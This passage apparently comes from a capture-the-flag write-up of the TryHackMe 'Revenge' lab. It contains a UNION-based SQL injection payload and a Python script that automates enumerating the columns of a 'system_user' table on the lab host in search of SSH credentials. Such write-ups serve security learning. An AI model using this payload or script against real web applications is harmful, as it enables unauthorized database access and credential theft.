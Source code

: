 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Revenge/images/Pasted%20image%2020221227022155.png)

- Database `duckyinc` tables: `product`, `system_user`, `user`

Hmm... Table `system_user` sounds very interesting. **Maybe it holds some SSH credentials?**

**Listing columns in database `duckyinc`'s table `system_user`:**
```sql
0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,column_name FROM information_schema.columns WHERE table_name='system_user' LIMIT 1 OFFSET 0-- -
```

**Also, I wanna write a python script to automate that:**
```py
#!/usr/bin/env python3
import requests
import urllib.parse
from bs4 import BeautifulSoup

def main():
    url = 'http://revenge.thm/products/'
    position = 0

    while True:
        payload = f"""0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,column_name FROM information_schema.columns WHERE table_name='system_user' LIMIT 1 OFFSET {position}-- -"""
        finalPayload = url + urllib.parse.quote(payload)

        request = requests.get(finalPayload)

        if request.status_code == 500:
            print(f'[-] Payload failed: {payload}')
            exit()
        else:
            position += 1
            soup = BeautifulSoup(request.text, 'html.parser')
            result = soup.p.text

            print(result)

if __name__ == '__main__':
    main()
```

